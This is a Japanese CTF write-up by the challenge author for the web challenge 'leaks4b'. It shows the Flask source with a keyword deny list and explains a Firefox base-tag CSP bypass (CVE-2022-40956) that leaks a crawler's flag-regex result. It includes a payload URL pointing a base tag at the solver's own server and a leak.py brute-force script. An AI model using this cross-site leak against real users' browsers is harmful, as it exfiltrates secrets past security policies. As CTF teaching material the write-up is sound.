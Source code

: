# leaks4b

## 問題文
ケーキをあいまい検索できます。 どれを注文するか迷ってしまいます！！  
`※フラグの形式はTsukuCTF22{[a-z]{7}}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。配布されているソースは厳密なものではありません。フラグの提出回数は3回までとなっています。`  
[http://133.130.96.134:31416](http://133.130.96.134:31416/)  

[leaks4b.zip](files/leaks4b.zip)  

## 難易度
**hard**  

## 作問にあたって
趣味CTFということもあり、キモイ問題を出しても良いでしょうということで1day問を出しました。  
Mozillaに早めに報告してしまったので、0day問ではなくなってしまいました(CVE-2022-40956)。  
CSSiやReDoSを用いたリークなど非想定解が思い浮かびまくり、修正しました。  
もし、Firefoxの1day以外で解かれた方がいましたらWriteupなどで教えてくれると嬉しいです。  
ちなみにMiscのsoderはこの非想定解から生まれた問題です。  
そして4bは嘘です。  

## 解法
URLとソースが渡される。  
アクセスするとケーキを検索できるページのようだ。  
![site1.png](images/site1.png)  
クローラが設置されており、パティシエが閲覧してくれるようだ。  
![site2.png](images/site2.png)  
ひとまず配布されたソースのapp.pyを見ると、以下のようであった。  
```python
~~~
def cssi_sanitizer(text):
    # XSS could be mitigated by CSP, but CSSi and ReDoS are dangerous.
    deny_list = ["stylesheet", "import", "image", "style", "flag", "link", "img", "\"", "$", "'", "(", ")", "*", "+", ":", ";", "?", "@", "[", "\\", "]", "^", "{", "}"]
    text = text.lower()
    if any([hack in text for hack in deny_list]):
        return "ハッキングケーキ"
    return text

menu = ["チョコレートケーキ, チョコケーキ, chocolatecake", "チーズケーキ, cheesecake", "バナナケーキ, bananacake"]

~~~

@app.route("/")
def top():
    cake = request.args.get("cake", "チョコレートケーキ")
    cake = cssi_sanitizer(cake[:100])
    flag = request.cookies.get("flag")
    # It is not expected to steal the cookie.
    # This is "leaks4b."
    if (flag == FLAG) and (re.findall(cake, FLAG)):
        img = "flag0.jpg"
    elif re.findall(cake, menu[0]):
        img = f"cake0.jpg"
    elif re.findall(cake, menu[1]):
        img = f"cake1.jpg"
    elif re.findall(cake, menu[2]):
        img = f"cake2.jpg"
    else:
        img = f"cake3.jpg"
    nonce = secrets.token_urlsafe(16)
    return f"""<!doctype html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{nonce}'; base-uri 'none'; connect-src 'none'; font-src 'none'; form-action 'none'; frame-src 'none'; object-src 'none'; require-trusted-types-for 'script'; worker-src 'none';">
    <script src="https://cdn.tailwindcss.com" nonce="{nonce}"></script>
    <title>Leaks4b</title>
</head>
~~~
"""
~~~
@app.route("/order", methods=["POST"])
def order_post():
    url = request.form.get("url", "____")
    if not url.startswith("http"):
        return "[ERROR] http and https schemes are allowed."
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch()
            context = browser.new_context()
            context.add_cookies([{"name": "flag", "value": FLAG, "httpOnly": True, "url": URL}])
            page = context.new_page()
            page.goto(url, timeout=10000)
            browser.close()
    except Exception as e:
        print(e)
        pass
    return "I received your cake order. Have the flag and wait for your cake!"
~~~
```
`?cake=`に入力した文字を正規表現としてケーキを検索している。  
フラグも検索できるが、cookieがフラグ文字列と一致している場合にのみ検索可能なようで、クローラ以外には不可能と考えられる。  
フラグが検索できた場合に表示される画像は`flag0.jpg`であり、ケーキは`cake0~3.jpg`である。  
この画像にフラグが書かれているのではと予測し、アクセスするが以下の画像が表示されるだけであった。  
![flag0.jpg](images/flag0.jpg)  
一見すると`?cake=`で任意のHTMLタグを差し込め、XSSによってクローラのcookieを取得できそうだがhttpOnlyであるようだ。  
さらにcssi_sanitizerと、とんでもなく厳しいCSPにより守られており、XSSは愚かCSSiも難しい。  
何とかしてクローラのフラグ検索結果の成否をリークしたい。  
ここでユーザ由来の正規表現を使っているため、ReDoSの可能性もあることに気づく。  
幸いCSPにimgの制限はないため、自身のドメインをsrcに設定したimgタグを挿入し、アクセスの有無を確認することでReDoSの応答遅延によってフラグをリークする手法が思い浮かぶ。  
しかしcssi_sanitizerや文字数制限が邪魔をして、これも難しい。  
ここで試しによくある手法であるbaseタグを挿入すると、CSPでnoneであるはずなのになぜかimgのsrcをbaseのhrefへ問い合わせることがわかる。  
これによって、CSPをバイパスしてimgの相対パスがリークできる。  
imgの画像ファイル名は検索結果によって異なるためクローラのフラグ検索結果のオラクルになりえる。  
あとはフラグに一致する正規表現とbaseタグをcssi_sanitizerを躱してクエリに設定してやればよい。  
フラグの`TsukuCTF22{`リークするクエリは以下になる。  
```
http://133.130.96.134:31416/?cake=.suku...22.|%3Cbase%20href=//[自身のサーバ]%3E
```
baseタグは`|`で設定し、特殊文字と小文字化に注意する(フラグの`{`などは`.`を利用して任意の一文字として埋めてやればよい)。  
リークが行えることがわかったら、`/static/img/flag0.jpg`が来るまで小文字すべてをクローラへ投げてやり、ヒットしたらフラグ文字列に追加し次の文字を探せばよい。  
以下のleak.pyで行う。  
```python
import requests

TARGET_URL = "http://133.130.96.134:31416"
LEAK_URL = "http://[自身のサーバ]".replace("http:", "").replace("https:", "")

FLAG = ".suku...22."

for c in "abcdefghijklmnopqrstuvwxyz.":
    res = requests.post(f"{TARGET_URL}/order", data={"url": f"{TARGET_URL}/?cake={FLAG}{c}|%3Cbase%20href={LEAK_URL}%3E"})
    print(res.text)
```
実行し、手動でリークした文字を追加していくとflagが得られた(自動化もできるが手動でも可能なようなflagになっている)。  

## TsukuCTF22{cakeuma}